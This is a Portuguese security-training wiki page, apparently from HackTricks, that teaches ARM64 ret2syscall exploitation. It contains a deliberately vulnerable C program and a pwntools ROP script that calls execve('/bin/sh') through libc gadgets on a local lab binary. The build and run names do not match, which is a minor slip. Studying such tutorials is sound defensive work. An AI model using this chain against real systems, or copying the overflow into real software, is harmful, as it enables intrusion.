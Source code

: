 # Ret2syscall - ARM64

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Encontre uma introdução ao arm64 em:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}

## Código

Vamos usar o exemplo da página:

{% content-ref url="../../stack-overflow/ret2win/ret2win-arm64.md" %}
[ret2win-arm64.md](../../stack-overflow/ret2win/ret2win-arm64.md)
{% endcontent-ref %}
```c
#include <stdio.h>
#include <unistd.h>

void win() {
printf("Congratulations!\n");
}

void vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
vulnerable_function();
return 0;
}
```
Compile sem pie e canário:
```bash
clang -o ret2win ret2win.c -fno-stack-protector
```
## Gadgets

Para preparar a chamada para o **syscall**, é necessária a seguinte configuração:

* `x8: 221 Especificar sys_execve`
* `x0: ptr para "/bin/sh" especificar arquivo a ser executado`
* `x1: 0 especificar nenhum argumento passado`
* `x2: 0 especificar nenhuma variável de ambiente passada`

Usando ROPgadget.py, consegui localizar os seguintes gadgets na biblioteca libc da máquina:

{% code overflow="wrap" %}
```armasm
;Load x0, x1 and x3 from stack and x5 and call x5
0x0000000000114c30:
ldp x3, x0, [sp, #8] ;
ldp x1, x4, [sp, #0x18] ;
ldr x5, [sp, #0x58] ;
ldr x2, [sp, #0xe0] ;
blr x5

;Move execve syscall (0xdd) to x8 and call it
0x00000000000bb97c :
nop ;
nop ;
mov x8, #0xdd ;
svc #0
```
{% endcode %}

Com os gadgets anteriores, podemos controlar todos os registradores necessários da pilha e usar x5 para pular para o segundo gadget para chamar a syscall.

{% hint style="success" %}
Observe que saber essas informações da biblioteca libc também permite realizar um ataque ret2libc, mas vamos usá-las para este exemplo atual.
{% endhint %}

### Exploit
```python
from pwn import *

p = process('./ret2syscall')
elf = context.binary = ELF('./ret2syscall')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

#0x0000000000114c2c : bl #0x133070 ; ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5
load_x0_x1_x2 = libc.address + 0x114c30 # ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5

# 0x00000000000bb97c : nop ; nop ; mov x8, #0xdd ; svc #0
call_execve = libc.address + 0xbb97c

print("/bin/sh in: " + hex(binsh))
print("load_x0_x1_x2 in: " + hex(load_x0_x1_x2))
print("call_execve in: " + hex(call_execve))

# stack offset
bof = b"A" * (stack_offset)
bof += p64(load_x0_x1_x2)

# ldp x3, x0, [sp, #8]
rop = b"BBBBBBBBBBBBBBBB" #x3
rop += p64(binsh) #x0

# ldp x1, x4, [sp, #0x18]
rop += b"C"*(0x18 - len(rop))
rop += p64(0x00) # x1
rop += b"CCCCCCCC" #x4

# ldr x5, [sp, #0x58]
rop += b"D"*(0x58 - len(rop))
rop += p64(call_execve) # x5

# ldr x2, [sp, #0xe0]
rop += b"E" * (0xe0 - len(rop))
rop += p64(0x00) # x2

payload = bof + rop

p.sendline(payload)

p.interactive()
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
